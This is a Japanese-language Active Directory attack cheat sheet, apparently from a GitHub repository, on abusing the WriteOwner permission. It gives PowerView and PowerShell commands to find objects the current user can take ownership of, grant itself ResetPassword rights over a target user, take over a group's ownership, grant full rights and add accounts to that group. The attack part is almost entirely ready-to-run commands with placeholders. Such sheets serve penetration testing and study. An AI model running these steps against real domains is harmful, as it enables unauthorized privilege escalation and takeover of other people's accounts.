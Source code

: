 # WriteOwnerの悪用

この権限はオブジェクトの所有権を変更できる権限。ユーザーオブジェクトに `WriteOwner` がある場合は、そのユーザーの所有者になることができる。グループオブジェクトに対して `WriteOwner` を持っている場合、自分自身または、侵害した他のユーザーをそのグループに追加できる。ユーザー オブジェクトの所有権がある場合は、ユーザーのパスワードをリセットする`Resetpassword`権限を自分に付与して、権限を昇格することができる。

## WriteOwner on User

### Write Ownerを持つオブジェクトのリストを取得

`whoami /user` を実行して現在のユーザーの SID を取得し、`PowerView` をインポートしてから、以下のコマンドを実行して `WriteOwner` 権限を持つオブジェクトのリストを取得

```
Get-Objectacl -resolveguids | ? {($_.securityidentifier -eq "<SID>") -and ($_.activedirectoryrights -like "*WriteOwner*")}
```

### ForceChangePassword 権限を自分に付与

```
Add-DomainObjectacl -TargetIdentity <Target_User> -PrincipalIdentity <USERNAME> -Rights Resetpassword
```

### 権限が付与されているか確認

```
Get-Objectacl -resolveguids | ? {$_.securityidentifier -eq "<Target_USER_SID>"}
```

権限が付与されているとパスワードの変更ができるようになる

[ForceChangePassword](https://github.com/namahano/Cheat-Sheet/blob/main/Active%20Directory/DACL/ForceChangePassword.md)

## WriteOwner on Group

### グループにユーザーを追加

そのユーザーとしてプロセスを実行していない場合は、ターゲットユーザーを完全に制御するユーザーとしてドメインコントローラーを認証する必要があるかもしれない。`Get-DomainObject` と組み合わせてこれを行うには、まず `PSCredential` オブジェクトを作成する。

```
$SecPassword = ConvertTo-SecureString '<Password>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<DOMAIN>\<USERNAME>', $SecPassword)
```

グループの `OwnerIdentity`(オブジェクトの所有者) と `PrincipalIdentity` (オブジェクトのアクセス権)を変更

```
Set-DomainObjectOwner -Identity '<Target Group>' -OwnerIdentity <USERNAME> -Cred $cred
```

オブジェクトに対してアクセス権を与える

```
Add-DomainObjectAcl -TargetIdentity "<Target Group>" -PrincipalIdentity <USERNAME> -Cred $cred -Rights All
```

ユーザーをグループに追加

```
Add-DomainGroupMember -Identity '<Target Group>' -Members '<USERNAME>' -Cred $cred
```

グループに追加されているか確認

```
net group "<Target Group>"
```





